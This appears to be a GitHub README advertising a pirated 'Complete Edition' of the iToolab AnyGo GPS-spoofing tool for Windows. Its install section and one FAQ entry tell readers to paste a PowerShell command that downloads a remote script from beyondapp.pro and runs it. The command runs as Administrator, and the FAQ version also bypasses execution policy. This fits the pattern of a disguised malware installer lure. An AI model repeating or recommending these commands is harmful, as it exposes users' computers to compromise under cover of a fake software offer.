

<div align="center">


<br>


# iToolab AnyGo Virtual Location Ultimate
**Ultimate virtual location tool · GPS simulation for iOS · Premium route planning**
<br>
**Ultimate virtual location tool · GPS simulation for iOS · Premium route planning**
<br>
Complete Edition · Premium Build · Windows · Deployment



**Complete Edition — all AnyGo modules and ultimate location simulation tools enabled.**

</div>
---

> Licensed ultimate AnyGo with virtual location and every premium route planning module included.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

📱 **Device toolkit** — iOS and Android management modules enabled.
📦 **Local desktop suite** — Works on Windows after setup.
🖥️ **Windows native** — Optimized for Windows 10/11 64-bit.
⚙️ **Pro modules** — Premium mobile utilities enabled in this build.
📋 **Complete toolkit** — Backup, transfer and repair workflows included.
✨ **Enterprise ready** — Deployment package for support teams.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 4 GB |
| **Disk** | 500 MB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 4 GB, 500 MB.
</details>


TAGS
itoolab-anygo, virtual-location, gps-simulation, route-planning, ios-tools, location-changer, professional, windows, desktop, software, pro, studio, tools
